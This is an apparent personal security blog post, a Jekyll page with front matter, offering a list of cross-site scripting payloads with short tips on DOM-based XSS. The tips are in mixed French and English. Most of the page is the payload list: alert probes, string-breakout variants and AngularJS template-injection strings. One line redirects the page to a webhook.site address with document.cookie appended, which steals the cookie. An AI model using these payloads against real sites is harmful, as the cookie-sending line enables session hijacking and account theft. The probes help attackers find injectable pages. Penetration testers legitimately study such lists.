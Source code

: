 ```yaml
---
layout: post
title:  "XSS Master Race"
date:   2023-10-24 08:35:09 +0200
categories: jekyll update
permalink: /xss/
image: /assets/uploads/xss.png
---
```


# PostXSS

Hi everyone it's Denverledinosor and welcome to this new post about XSS

**Here is a couple of Payload :**
```markdown
Classic
{% raw %}
javascript:alert(document.cookie)
cookie='.concat(document.cookie);//
';document.location.href='https://webhook.site/03d5790c-ca53-47be-bd66-3ceca1d48f1f/?cookie='.concat(document.cookie);//
{% endraw %}
DOM XSS
{% raw %}
' % <alert(1)>; //
' - <alert(1)>; //
' + <alert(1)>; //
' / <alert(1)>; //
' ^ <alert(1); //
';alert(1);'
{% endraw %}
DOM XSS Angular
{% raw %}
{{1+1}}
{{$eval.constructor('alert(1)')()}}
{{$eval(5,5)}}
{% endraw %}
```

**Petits conseils pour les XSS Basées sur le DOM**

**Regardez le rendu de votre entrée sur le code source.**

On this type of vuln, we have the possibility of being able to visualize our actions and the repercussions they have. For example, checking that quotes have been escaped.

**Look at the errors that the console displays to you
your browser.**

Errors
allow you to understand many things about the code, and often in this genre
of XSS errors, that’s a good sign! This means that we managed to do
carry out things on the site that were not initially planned. Look
errors are therefore essential.
>https://0xhorizon.eu/fr/articles/xss-dom-based/